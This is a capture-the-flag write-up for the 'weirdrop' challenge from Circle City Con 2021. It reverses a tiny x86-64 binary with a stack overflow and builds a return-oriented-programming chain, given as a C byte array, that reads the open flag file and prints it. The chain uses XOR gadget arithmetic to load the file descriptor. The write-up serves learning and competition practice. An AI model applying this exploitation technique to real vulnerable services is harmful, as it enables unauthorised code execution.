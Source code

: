 ## weirdrop (Circle City Con 2021)

Didn't participate in the ctf, but I noticed that there is no writeup for this
challenge, so I decided to address that. :D


## Exploitable Service

We get an exploitable service binary.

```bash
[joey@gibson] file weird-rop
weird-rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=2876651ce7257d4153ee90b05f0b1a2b29f25700, not stripped
```
Neato! The service is a 64-bit ELF. The binary is statically compiled and not
stripped, making reversing and exploitation much easier for us.


## Reversing

Turns out there isn't much to reverse! This is a very lightweight binary,
written in assembly. Here's the program entry:

```asm
┌ 21: entry0 ();
│           0x00401154      e887ffffff     call loc.vuln
│           0x00401159      48c7c03c0000.  mov rax, 0x3c
│           0x00401160      48c7c7000000.  mov rdi, 0
└           0x00401167      0f05           syscall
```
So far so good - the program calls `vuln()` then calls the `exit` system call
with return code `0`. If you are looking for an easy reference for the ABI
[bookmark
this](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md).
Or if you're feeling masochistic you can rummage around in `/usr/include`.

Let's take a look at `vuln()`:
```asm
│           0x004010e0      55             push rbp
│           0x004010e1      4889e5         mov rbp, rsp
│           0x004010e4      4883ec10       sub rsp, 0x10
│           0x004010e8      48c7c0020000.  mov rax, 2
│           0x004010ef      488d3c250020.  lea rdi, loc.flag ; 0x402000 ; "/flag.txt"
│           0x004010f7      48c7c6020000.  mov rsi, 2
│           0x004010fe      48c7c2000000.  mov rdx, 0
│           0x00401105      0f05           syscall
```
So far we got `open("/flag.txt", O_RDWR)`. Note that this binary isn't actually
using libc, I'm just using libc functions to make the reversed code easier to
look at. You can find the definitions of flags like `O_RDWR` in `/usr/include`
(e.g. `/usr/include/asm-generic/fcntl.h`).

```asm
│           0x00401107      4883c030       add rax, 0x30
│           0x0040110b      880424         mov byte [rsp], al
│           0x0040110e      c64424010a     mov byte [var_1h], 0xa
│           0x00401113      48c7c0010000.  mov rax, 1
│           0x0040111a      48c7c7010000.  mov rdi, 1
│           0x00401121      4889e6         mov rsi, rsp
│           0x00401124      48c7c2020000.  mov rdx, 2
│           0x0040112b      0f05           syscall
```

At this point the `rax` register holds the file descriptor returned by the
`open` syscall. The program adds `0x30` to the file descriptor, which is a
low-tech way of turning a digit into its ASCII representation (`0x30`
represents zero and so on). We store this value on the stack and append `\n` to
it. The program then outputs this number to the stdout: `write(STDOUT_FILENO,
stack_pointer, 2);`

```asm
│           0x0040112d      48c7c0000000.  mov rax, 0
│           0x00401134      48c7c7000000.  mov rdi, 0
│           0x0040113b      4889e6         mov rsi, rsp
│           0x0040113e      48c7c2c80000.  mov rdx, 0xc8
│           0x00401145      0f05           syscall
│           0x00401147      48c7c7000000.  mov rdi, 0
│           0x0040114e      4883c410       add rsp, 0x10
│           0x00401152      5d             pop rbp
└           0x00401153      c3             ret
```
Boils down to this:
`read(STDOUT_FILENO, stack_ptr, 200);`

The final chunk of this function reads `0xc8` bytes on the stack, nulls out
the `rdi` register, does some final cleanup, and returns. Obviously this is the
vulnerability - we can overwrite the return address on the stack and gain
control of the program counter.

## Yucky Gadgets

Okay so.. what's the problem? Just hunt for some useful gadgets and get that
easy 300 points right? Let's see here...

```asm
  0x00401000                 5e  pop rsi
  0x00401001                 c3  ret

  0x00401002     48c7c000000000  mov rax, 0
  0x00401009                 c3  ret
```

Cool cool.

```asm
  0x0040100a     48c7c001000000  mov rax, 1
  0x00401011                 c3  ret

  0x004010db               0f05  syscall
  0x004010dd                 c3  ret
```

Nice!

```asm
  0x0040109b     4881f7cd030000  xor rdi, 0x3cd
  0x004010a2                 c3  ret

  0x004010d3     4881f79a020000  xor rdi, 0x29a
  0x004010da                 c3  ret
```
Uhm...

```asm
  0x004010cb     4881f7a3010000  xor rdi, 0x1a3
  0x004010d2                 c3  ret

  0x004010c3     4881f798010000  xor rdi, 0x198
  0x004010ca                 c3  ret
```
... okay?

26 `xor rdi` gadgets?! Gross.

## Exploitation Plan

The exploitation path I chose was to take advantage of the open file
descriptor, telegraphed to us by the service, to read the contents of the flag
file and then simply write it to standard output.

Most gadgets are already obvious - we can load `1` and `0` into `rax`
for the `write` and `read` system calls respectively. We even have a gadget to
load the standard output file descriptor (`1`) into `rdi`.

However we still need to put the flag file descriptor in `rdi` and there is no
clear gadget candidate for this. Time for some XOR math!

I don't know about you, but I'm pretty lazy, so I'm just going to write a Python
script to bruteforce the XOR gadgets we need. (Note that since the `rdi`
register is nulled out, the first XOR gadget will just put the immediate value
into the register). I can permute over every possible combination of XOR gadgets
and break when I get the value I want. `permute.py` is the script that I wrote
for this task. Take a look - nothing fancy here.

The flag file descriptor is always `5`, so we can just run `permute.py` once to
figure out the gadgets we need.

_If you are confused that the file descriptor is `5` and not `3` you are
correct - it's weird. This is likely due to a little bit more code on the
server side that we don't get to see. (I think the challenge would be more
interesting if the file descriptor was somewhat random. That way we would have
to dynamically determine which gadgets to use)._

```
[joey@gibson]$ ./permute.py 5
0x56 0x53
```
Great - so the xor gadgets that use these two operands is what we need. We
should have all of the key elements of our exploit. This is the ROP chain I
came up with:

```C
#define EXPLOIT_LEN     0xc8

uint8_t exploit[EXPLOIT_LEN] = {
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // filler!
    0x7c, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x53
    0x1a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x56
    0xde, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // pop rdx
    0x19, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // length value
    0x02, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x0
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x0a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x1
    0x12, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rdi, 0x1
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
//  ...
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
};
```

First 24 bytes is the filler for the stack - recall that the function subtracts
`0x10` from the stack pointer and pops a register. We covered what is going on
with the first two gadgets. The next gadget pops `0x19` into `rdx`, which is
the length of our read. Finally, we shove the `read` syscall number into `rax`
and call it. Then we simply use the gadgets to load the `write` syscall number
and place stdout file decriptor (`1`) as its first argument. The other two
arguments in registers `rsi` and `rdx` remain the same. That's it!

Let's see it in action:

```bash
[joey@gibson]$ ./exploit
CCC{math_is_hard_1234897}
```
